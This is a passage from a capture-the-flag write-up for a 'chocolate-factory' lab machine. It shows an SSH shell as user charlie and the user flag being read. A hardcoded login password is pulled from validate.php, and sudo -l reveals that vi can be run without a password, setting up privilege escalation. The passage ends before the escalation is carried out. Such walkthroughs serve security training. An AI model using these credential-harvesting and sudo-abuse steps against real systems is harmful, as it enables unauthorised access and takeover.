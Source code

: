 as you can see , we could successfully connect to charlie user using ssh .

let's now get the user flag : 

```bash
charlie@chocolate-factory:/$ ls
bin   cdrom  etc   initrd.img	   lib	  lost+found  mnt  proc  run   snap  swap.img  tmp  var      vmlinuz.old
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   sys       usr  vmlinuz
charlie@chocolate-factory:/$ cd /home/charlie/
charlie@chocolate-factory:/home/charlie$ ls
teleport  teleport.pub	user.txt
charlie@chocolate-factory:/home/charlie$ cat user.txt 
flag{cd55090***************22d2e} 
charlie@chocolate-factory:/home/charlie$ 

```

we got successfully the user flag . but we need also his password .

let's go to the directory where http is running . and see what is inside it :

```bash
charlie@chocolate-factory:/home/charlie$ cd /var/www/html/
charlie@chocolate-factory:/var/www/html$ ls
home.jpg  home.php  image.png  index.html  index.php.bak  key_rev_key  validate.php
```

after reading those files , we found the password in validate.php file .

```bash
charlie@chocolate-factory:/var/www/html$ cat validate.php 
<?php
	$uname=$_POST['uname'];
	$password=$_POST['password'];
	if($uname=="charlie" && $password=="cn7824"){
		echo "<script>window.location='home.php'</script>";
	}
	else{
		echo "<script>alert('Incorrect Credentials');</script>";
		echo "<script>window.location='index.html'</script>";
	}
?>charlie@chocolate-factory:/var/www/html$ 
```

so , as you can see , the password is in the fourth line .

### Privilege escalation :

let's now get the root flag by escalate the privilege from user to root .

By running sudo -l . we see that charlie can run the vi as a super user .

```bash
charlie@chocolate-factory:/$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
charlie@chocolate-factory:/$ 

```
